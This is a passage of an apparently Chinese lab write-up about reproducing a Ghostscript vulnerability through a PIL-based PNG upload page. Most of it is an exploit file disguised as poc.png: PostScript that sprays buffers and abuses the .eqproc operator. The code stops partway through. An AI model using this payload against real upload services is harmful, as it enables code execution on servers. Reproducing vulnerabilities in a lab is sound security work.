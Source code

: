 3. 访问url可以看到文件上传页面。程序只使用允许后缀为 png 的文件上传，并在上传成功之后使用PIL获取图片长宽。

### 4.2  漏洞POC利用

上传poc.png图片，图片源码：

```c
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100


/size_from  10000      def
/size_step    500      def
/size_to   65000      def
/enlarge    1000      def

%/bigarr 65000 array def

0
size_from size_step size_to {
    pop
    1 add
} for

/buffercount exch def

/buffersizes buffercount array def


0
size_from size_step size_to {
    buffersizes exch 2 index exch put
    1 add
} for
pop

/buffers buffercount array def

0 1 buffercount 1 sub {
    /ind exch def
    buffersizes ind get /cursize exch def
    cursize string /curbuf exch def
    buffers ind curbuf put
    cursize 16 sub 1 cursize 1 sub {
        curbuf exch 255 put
    } for
} for


/buffersearchvars [0 0 0 0 0] def
/sdevice [0] def

enlarge array aload

{
    .eqproc
    buffersearchvars 0 buffersearchvars 0 get 1 add put
    buffersearchvars 1 0 put
    buffersearchvars 2 0 put
    buffercount {
        buffers buffersearchvars 1 get get
        buffersizes buffersearchvars 1 get get
        16 sub get
        254 le {
```